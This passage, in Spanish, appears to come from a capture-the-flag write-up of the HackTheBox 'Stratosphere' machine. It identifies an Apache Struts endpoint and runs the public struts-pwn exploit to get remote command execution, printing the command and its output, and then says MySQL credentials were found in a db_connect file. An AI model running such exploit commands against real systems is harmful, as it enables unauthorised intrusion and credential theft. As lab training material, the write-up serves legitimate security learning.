 Por el puerto 80 únicamente encontramos algunos directorios relacionados con Apache, sin embargo, por el puerto 8080 encontramos un directorio `Monitoring`

<img src="/assets/HTB/Stratosphere/monitoring.png">

Observando la url vemos `Welcome.action`. Por la carpeta manager sabemos que estamos ante Apache. Buscamos en google la extensión `.action` y vemos que se trata de `Struts`. Struts es un framework para construir aplicaciones web Java basadas en la filosofía MVC. Buscando vulnerabilidades asociadas a este servicio encontramos este repositorio de GitHub de [mazen160](https://github.com/mazen160/struts-pwn). Nos lo clonamos en nuestro directorio de trabajo. Testeamos que funcione correctamente como nos indican en el repositorio

```bash
❯ python3 struts-pwn.py --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action' -c 'id'

[*] URL: http://10.10.10.64:8080/Monitoring/example/Welcome.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
```

A pesar de que tenemos capacidad de RCE las reglas de firewall implementadas no nos permiten entablar una reverse shell. Listamos contenido del directorio actual y vemos un archivo `db_connect`. Listamos su contenido y localizamos unas credenciales de mysql
